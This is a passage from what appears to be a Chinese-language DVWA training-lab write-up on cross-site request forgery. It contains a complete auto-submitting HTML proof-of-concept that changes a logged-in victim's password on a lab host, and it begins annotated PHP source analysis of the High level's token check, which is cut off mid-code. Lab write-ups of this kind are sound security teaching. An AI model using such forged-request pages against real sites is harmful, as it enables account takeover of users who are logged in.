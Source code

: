 同样值得注意的是，本关 CSRF 是利用受害者的 cookie 向服务器发送伪造请求，即攻击成功的大前提是用户已在浏览器中登陆！

```html
<!-- medium_192.168.50.143.html -->
<!DOCTYPE html>
<html>
<head>
    <title>Medium CSRF PoC</title>
</head>
<body>
    <h1>Medium CSRF PoC</h1>
    <form id="csrfForm" action="http://192.168.50.143/dvwa/vulnerabilities/csrf/" method="GET">
        <input type="hidden" name="password_new" value="goodNight">
        <input type="hidden" name="password_conf" value="goodNight">
        <input type="hidden" name="Change" value="Change">
    </form>
    <script>
        // 自动提交表单
        document.getElementById('csrfForm').submit();
    </script>
</body>
</html>
```



## High

### 知识预习

#### ❌ cookie 与 token 的关系

#### ❌ CSRF 跨域问题

### 源码分析

```php
// high.php
// 相比与关卡 Low，主要区别如下：

// 下述这段代码确保了无论请求是以JSON格式还是表单格式发送，都能正确处理密码更改请求
// 1.首先检查请求方法是否为POST，并且请求的内容类型是否为application/json
if ($_SERVER['REQUEST_METHOD'] == "POST" && array_key_exists ("CONTENT_TYPE", $_SERVER) && $_SERVER['CONTENT_TYPE'] == "application/json") {
	// 如果是JSON请求，读取并解析JSON数据
	$data = json_decode(file_get_contents('php://input'), true);
	$request_type = "json";
	// 检查JSON数据中是否包含所需的字段
	if (array_key_exists("HTTP_USER_TOKEN", $_SERVER) &&
		array_key_exists("password_new", $data) &&
		array_key_exists("password_conf", $data) &&
		array_key_exists("Change", $data)) {
    	// 若包含则将其对应值取出
		$token = $_SERVER['HTTP_USER_TOKEN'];
		$pass_new = $data["password_new"];
		$pass_conf = $data["password_conf"];
		$change = true;
	}
// 2.如果不是JSON请求，检查请求参数中是否包含所需的字段
} else {
	if (array_key_exists("user_token", $_REQUEST) &&
		array_key_exists("password_new", $_REQUEST) &&
		array_key_exists("password_conf", $_REQUEST) &&
		array_key_exists("Change", $_REQUEST)) {
		$token = $_REQUEST["user_token"];
```